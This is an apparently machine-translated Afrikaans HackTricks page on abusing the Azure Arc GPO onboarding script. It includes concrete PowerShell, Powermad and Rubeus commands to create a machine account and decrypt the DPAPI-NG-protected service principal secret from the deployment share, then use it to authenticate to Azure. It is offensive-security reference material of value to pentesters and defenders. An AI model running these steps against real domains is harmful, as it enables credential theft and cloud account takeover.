 # Az - Arc kwesbare GPO Ontplooi Skrip

{{#include ../../../banners/hacktricks-training.md}}

### Identifisering van die Probleme

Azure Arc stel die integrasie van nuwe interne bedieners (aangeslote domeinbedieners) in Azure Arc via die Groep Beleidsobjek metode moontlik. Om dit te fasiliteer, bied Microsoft 'n ontplooiing toolkit aan wat nodig is om die aanmeldproses te begin. Binne die ArcEnableServerGroupPolicy.zip lêer kan die volgende skripte gevind word: DeployGPO.ps1, EnableAzureArc.ps1, en AzureArcDeployment.psm1.

Wanneer dit uitgevoer word, voer die DeployGPO.ps1 skrip die volgende aksies uit:

1. Skep die Azure Arc Servers Aanmeld GPO binne die plaaslike domein.
2. Kopieer die EnableAzureArc.ps1 aanmeldskrip na die aangewese netwerkdeel wat geskep is vir die aanmeldproses, wat ook die Windows installer pakket bevat.

Wanneer hierdie skrip uitgevoer word, moet stelselsadmins twee hoofparameters verskaf: **ServicePrincipalId** en **ServicePrincipalClientSecret**. Daarbenewens vereis dit ander parameters soos die domein, die FQDN van die bediener wat die deel huisves, en die deelnaam. Verdere besonderhede soos die tenant ID, hulpbron groep, en ander nodige inligting moet ook aan die skrip verskaf word.

'n Geënkripteerde geheim word in die AzureArcDeploy gids op die gespesifiseerde deel gegenereer met behulp van DPAPI-NG enkripsie. Die geënkripteerde geheim word in 'n lêer genaamd encryptedServicePrincipalSecret gestoor. Bewyse hiervan kan in die DeployGPO.ps1 skrip gevind word, waar die enkripsie uitgevoer word deur ProtectBase64 aan te roep met $descriptor en $ServicePrincipalSecret as invoer. Die descriptor bestaan uit die Domein Rekenaar en Domein Beheerder groep SIDs, wat verseker dat die ServicePrincipalSecret slegs deur die Domein Beheerders en Domein Rekenaar sekuriteitsgroepe ontkripteer kan word, soos opgemerk in die skrip kommentaar.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Ons het die volgende toestande:

1. Ons het suksesvol die interne netwerk binnegedring.
2. Ons het die vermoë om 'n rekenaarrekening binne Active Directory te skep of te beheer.
3. Ons het 'n netwerkdeel ontdek wat die AzureArcDeploy-gids bevat.

Daar is verskeie metodes om 'n masjienrekening binne 'n AD-omgewing te verkry. Een van die mees algemene is om die masjienrekeningkwota te benut. 'n Ander metode behels die kompromittering van 'n masjienrekening deur kwesbare ACL's of verskeie ander miskonfigurasies.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sodra 'n masjienrekening verkry is, is dit moontlik om met hierdie rekening te autentiseer. Ons kan of die runas.exe-opdrag met die netonly-vlag gebruik of pass-the-ticket met Rubeus.exe gebruik.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Deur die TGT vir ons rekenaarrekening in geheue te stoor, kan ons die volgende skrip gebruik om die dienshoofsekrte te ontsleutel.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatiewelik kan ons [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) gebruik.

Op hierdie punt kan ons die oorblywende inligting versamel wat nodig is om met Azure te verbind vanaf die ArcInfo.json-lêer, wat op dieselfde netwerkdeel as die encryptedServicePrincipalSecret-lêer gestoor is. Hierdie lêer bevat besonderhede soos: TenantId, servicePrincipalClientId, ResourceGroup, en meer. Met hierdie inligting kan ons Azure CLI gebruik om as die gecompromitteerde dienshoof te autentiseer.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
